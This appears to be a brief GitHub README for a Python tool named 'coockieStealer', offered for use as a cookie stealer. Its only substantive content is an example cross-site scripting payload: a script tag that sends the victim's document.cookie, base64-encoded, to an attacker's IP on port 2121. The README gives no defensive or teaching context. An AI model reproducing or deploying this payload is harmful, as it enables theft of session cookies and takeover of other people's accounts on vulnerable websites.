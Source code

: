 # coockieStealer
A simple cookie stealer coded in python

## Example payload:
<script>document.location='http://<your ip>:2121/'+encodeURIComponent(btoa(document.cookie));</script>
